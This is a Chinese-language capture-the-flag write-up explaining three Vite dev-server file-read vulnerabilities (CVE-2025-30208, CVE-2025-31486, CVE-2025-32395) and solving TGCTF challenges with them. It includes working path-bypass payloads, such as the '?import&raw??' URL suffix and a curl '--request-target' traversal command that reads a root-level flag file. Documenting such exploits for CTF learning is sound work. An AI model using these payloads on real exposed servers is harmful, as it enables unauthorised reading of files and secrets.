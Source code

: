 ```yaml
---
title: "Vite漏洞分析"
description: "Vite漏洞分析-CVE-2025-30208"
date: 2025-06-15
tags:
  - "CVE-2025-30208"
  - "CVE-2025-31486"
  - "CVE-2025-32395"
  - "vite"
authors:
  - "bx"
draft: false             
slug: "bxvite" 
---
```

<meta name="referrer" content="no-referrer">

# Vite漏洞分析
主要是 TGCTF 里面出来了三道题，这个漏洞还是非常新的

+ CVE-2025-30208

`@fs` 拒绝访问 Vite 服务允许列表之外的文件。将 `?raw??` 或 `?import&raw??` 添加到 URL 中可以绕过此限制，如果存在则返回文件内容。这种绕过存在是因为在多个地方删除了尾随分隔符（如 `?` ），但未在查询字符串正则表达式中考虑。

[https://github.com/vitejs/vite/security/advisories/GHSA-x574-m823-4x7w](https://github.com/vitejs/vite/security/advisories/GHSA-x574-m823-4x7w)

+ CVE-2025-31486

这个是，只有明确将 Vite 开发服务器暴露到网络上的应用程序（使用 --host 或 server.host 配置选项）才会受到影响

[`server.fs.deny` 通过 `.svg` 或相对路径绕过](https://github.com/vitejs/vite/security/advisories/GHSA-xcj6-pq6g-qj4x)

+ CVE-2025-32395

[`server.fs.deny` bypassed with an invalid `request-target`](https://github.com/vitejs/vite/security/advisories/GHSA-356w-63v5-8wf4)



## 调试 Vue
学习到了一个 vue devtools

官网如下：

[Vue DevTools](https://devtools.vuejs.org/)

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744727354800-2928e5dd-2bfa-447c-9bcd-997f324948ee.png)

我就拿这题举例子，在 chrome 下载这个插件

可以清晰的看出来 vue 项目的结构之类的东西

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744727146492-3214e69b-56f6-4658-a38a-3e9b4dd994e3.png)

在`components`可以快捷调试，确实比自己找半天强，还能快捷的梳理版本号和项目结构

具体效果如下





![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744727030500-241e36a6-a6d1-4260-9065-bcd3677282f7.png)

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744727200702-a5b0c156-a898-4331-9d5e-cf8981e2e4c7.png)



## **前端GAME**
https://www.panziye.com/front/16376.html

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744647088442-4bbde74b-f299-4c85-84da-a8e28caac511.png)

关键代码

```bash
const result = (source) => {             if (source > 17) { // <--- 关键条件在这里！                 return `     \u5F53\u524D\u6210\u7EE9\uFF1A${score.value}\u5206     <div class="result">       <img src="@/assets/images/result.png" />       <p>\u606D\u559C\u4F60\u83B7\u5F97\u4E86</p>       <p>\u96EA\u7CD5\u5927\u738B\u79F0\u53F7</p>       <p>flag\u5728\u6839\u76EE\u5F55\u4E0B/tgflagggg\u4E2D</p> // <--- Flag 位置信息！      </div>     `;             } else {                 return `     \u5F53\u524D\u6210\u7EE9\uFF1A${score.value}\u5206     <div class="result">       <img src="@/assets/images/result.png" />       <p>\u83DC\uFF01\uFF01\uFF01</p>     </div>     `;             }         }
   
   
   -------
   
   const result = (source) => {
    if (source > 17) { // <--- 关键条件在这里！
        return `
当前成绩：${score.value}分
<div class="result">
  <img src="@/assets/images/result.png" />
  <p>恭喜你获得了</p>
  <p>雪糕大王称号</p>
  <p>flag在根目录下/tgflagggg中</p> // <--- Flag 位置信息！
</div>
`;
    } else {
        return `
当前成绩：${score.value}分
<div class="result">
  <img src="@/assets/images/result.png" />
  <p>菜！！！</p>
</div>
`;
    }
}
```

http://node2.tgctf.woooo.tech:31048/start.sh

```bash
#!/bin/sh
# 鍚姩 Vite 寮€鍙戞湇鍔″櫒锛堝悗鍙拌繍琛岋級
pnpm dev --host 0.0.0.0 &

echo $FLAG > /tgflagggg
export FLAG="not_flag"
FLAG="not_flag"

httpd -D FOREGROUND

# 淇濇寔瀹瑰櫒杩愯锛堥槻姝㈤€€鍑猴級
tail -f /dev/null
```

最后flag

### Payload
```plain
http://node2.tgctf.woooo.tech:32123/@fs/tgflagggg?import&raw??
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744647088429-b1c1636d-4d47-4d62-b584-12c176821cd1.png)





## **前端GAME Plus**
https://github.com/vitejs/vite/security/advisories/GHSA-xcj6-pq6g-qj4x

```bash
const result = (source) => {
            if (source > 17) {
                return `
    \u5F53\u524D\u6210\u7EE9\uFF1A${score.value}\u5206
    <div class="result">
      <p>\u606D\u559C\u4F60\u83B7\u5F97\u4E86</p>
      <p>\u96EA\u7CD5\u5927\u738B\u79F0\u53F7</p>
      <p>flag\u5728\u6839\u76EE\u5F55\u4E0B/tgflagggg\u4E2D</p>
    </div>
    `;
            } else {
                return `
    \u5F53\u524D\u6210\u7EE9\uFF1A${score.value}\u5206
    <div class="result">
      <p>\u83DC\uFF01\uFF01\uFF01</p>
    </div>
```

![](https://cdn.nlark.com/yuque/0/2025/jpeg/42994824/1744647088522-7a5bbeaa-6568-4dc7-b8fa-3599118d4934.jpeg)

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744647506078-b8c548b0-fe19-42ad-aca1-76c53f6243ec.png)

两种打法都可以

## **前端GAME Ultra**
参考

https://github.com/vitejs/vite/security/advisories/GHSA-356w-63v5-8wf4

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744647088416-3d7fb5c5-bca7-4254-9d22-b4d6ddb6790f.png)

```plain
┌──(root㉿kali)-[/home/bx]
└─# curl --request-target '/@fs/app/#/../../../tgflagggg' http://node1.tgctf.woooo.tech:32399

TGCTF{3b323bb9-70eb-bb3a-d45a-86aff17f8ef4}
```

